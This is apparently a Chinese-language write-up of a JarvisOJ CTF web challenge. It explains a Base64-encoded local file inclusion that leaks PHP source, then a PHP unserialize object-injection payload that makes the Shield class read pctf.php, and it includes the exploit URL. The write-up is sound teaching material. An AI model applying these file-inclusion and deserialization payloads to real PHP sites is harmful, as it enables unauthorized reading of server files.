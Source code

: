 # 神盾局的秘密 write-up 及 PHP 反序列化知识点

[CreateTime]: # (2020.08.19)
[ModifyTime]: # (2020.08.19)

访问题目链接 http://web.jarvisoj.com:32768/ ，发现就只有一张图片。Ctrl + U 看看源码吧，源码也很简单。。就一行：

```
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

不难认出，后面这串 `c2hpZWxkLmpwZw==` 是 Base64 。你问我怎么认出？~~这不是“显然”吗，~~看后面两个等号 `==` 就是 Base64 的特征之一了。不过有时候 Base64 的结尾没有等号的，具体看 Base64 的实现吧，不多说了。

把这串 Base64 解码一下就得到 `shield.jpg` 。看到这个首先往本地包含文件漏洞想，文件名经过 Base64 编码之后作为参数传进去。

首先就试试包含 `/etc/passwd` ，发现不行，可能是被过滤了吧。那就试试包含自身 `showimg.php` 吧，这个就有结果了。

```php
<?php
    $f = $_GET['img'];
    if (!empty($f)) {
        $f = base64_decode($f);
        if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
        && stripos($f,'pctf')===FALSE) {
            readfile($f);
        } else {
            echo "File not found!";
        }
    }
?>
```

showimg.php 里果然是我猜测的那样，将参数 Base64 解码之后作为文件名。除此之外还看到了它过滤了 `..` ，`/` ，`\\` 还有一个很诡异的 `pctf` 。这个诡异的东西可能是获取 flag 的关键之处。

但仅此而已，就没什么思路了。再试试包含 `index.php` 。

```php
<?php
    require_once('shield.php');
    $x = new Shield();
    isset($_GET['class']) && $g = $_GET['class'];
    if (!empty($g)) {
        $x = unserialize($g);
    }
    echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

index.php 中 require 了 `shield.php` 文件，那就再看看这个文件里面是啥。

```php
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = '') {
            $this -> file = $filename;
        }

        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
```

至此，解题的思路在 index.php 里表明了，关键之处应该是那个 `$x = unserialize($g);` 。shield.php 跟我们说了， flag 在 pctf.php ，但 showimg.php 把 pctf 这个字符串给过滤了。而 shield.php 里同样过滤了 `..` ，`/` ，`\\` ，唯独没有过滤 pctf ，目的很明显，就是要我们去调用 shield.php 的 readfile 函数。

shield.php 的 readfile 函数会读取 `$this->file` ，而这个变量是能够通过反序列化来覆盖的。所以就要来构造反序列化的字符串，再通过 index.php 的 class 参数传递过去。

构建序列化字符串：

```php
<?php
    require_once('shield.php');
    $shield = new Shield("pctf.php");
    echo serialize($shield);  // O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}
?>
```

然后再访问 index.php ：`http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}` （`"`被浏览器自动转码了），就得到 flag 了。

总结一下，这个题涉及到了 **Base64 编码**、**本地文件包含漏洞** 和 **PHP 序列化/反序列化这些知识点**。反序列化这块我不熟悉，所以找了几篇文章来看，都放在参考链接里了。

### 参考链接

- [浅谈 php 反序列化漏洞](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)
- [PHP 反序列化由浅入深](https://xz.aliyun.com/t/3674)
- [PHP: serialize - Manual](https://www.php.net/manual/zh/function.serialize.php)
- [PHP: unserialize - Manual](https://www.php.net/manual/zh/function.unserialize.php)

还有序列化后字符的意义（节选自 PHP 文档下的 [User Contributed Notes](https://www.php.net/manual/zh/function.serialize.php#66147) ）：

```php
<?
/*
Anatomy of a serialize()'ed value:

String
s:size:value;

Integer
i:value;

Boolean
b:value; (does not store "true" or "false", does store '1' or '0')

Null
N;

Array
a:size:{key definition;value definition;(repeated per element)}

Object
O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}

String values are always in double quotes
Array keys are always integers or strings
    "null => 'value'" equates to 's:0:"";s:5:"value";',
    "true => 'value'" equates to 'i:1;s:5:"value";',
    "false => 'value'" equates to 'i:0;s:5:"value";'.
*/
?>
```
